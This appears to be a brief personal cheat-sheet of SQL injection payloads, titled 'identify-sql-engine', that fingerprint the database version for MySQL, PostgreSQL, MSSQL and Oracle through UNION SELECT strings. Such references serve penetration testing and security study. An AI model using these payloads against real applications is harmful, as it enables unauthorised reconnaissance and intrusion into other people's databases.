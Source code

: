 # identify-sql-engine

Author: Julien Bongars
Date: 2025-09-20 17:16:00

---

## MySQL

```sql
' UNION SELECT @@version--
' UNION SELECT version()--
```

## PostgreSQL

```sql
' UNION SELECT version()--
```

## MSSQL

```sql
' UNION SELECT @@version--
```

## Oracle

```sql
' UNION SELECT banner FROM v$version--
```
